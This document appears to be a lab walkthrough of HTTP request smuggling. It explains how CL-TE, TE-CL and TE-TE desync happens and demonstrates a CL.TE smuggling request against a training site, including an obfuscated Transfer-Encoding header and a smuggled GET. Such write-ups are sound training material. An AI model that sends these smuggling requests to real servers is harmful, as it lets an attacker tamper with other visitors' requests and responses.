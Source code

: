### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
-- 64 --
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
-- 65 --
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
-- 66 --
Following the redirect:
-- 67 --



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

